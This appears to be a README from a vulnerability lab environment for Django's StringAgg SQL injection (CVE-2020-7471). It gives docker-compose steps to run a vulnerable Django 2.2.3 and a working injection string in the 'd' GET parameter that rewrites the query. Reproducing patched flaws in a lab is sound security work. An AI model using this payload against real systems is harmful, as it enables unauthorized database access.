

# Django StringAgg SQL Injection Vulnerability（CVE-2020-7471）

[中文版本(Chinese version)](README.zh-cn.md)

Django released a security update on February 3, 2020, which fixes a SQL injection vulnerability in the StringAgg aggregation function.

Reference link:

- https://www.djangoproject.com/weblog/2020/feb/03/security-releases/

The vulnerability requires the developer to use StringAgg function. Moreover, the input of the queryset with a user-specified parameter delimiter can be controlled.

## Start Vulnerability Application

Compile and start a vulnerable Django 2.2.3 by executing the following command:

```
docker-compose build
docker-compose up -d
```

After the server is started, you can see a web page at `http://your-ip:8000`.

This page use `StringAgg` function of the Postgresql database to aggregate news based on the concatenation entered by the user, such as `http://your-ip:8000/?d=-` to get the result of aggregating data according to the concatenator `-`:



## Vulnerability Reproduce

Add `d=-') AS "group" FROM "vuln_collection" GROUP BY "vuln_collection"."id" LIMIT 1--`to the GET parameter, where `vuln` is your app and `collection` is the models.

`http://127.0.0.1:8000/?d=-') AS "group" FROM "vuln_collection" GROUP BY "vuln_collection"."id" LIMIT 1--`

You can see that the sql statement has been injected successfully, and you can get the informatin:


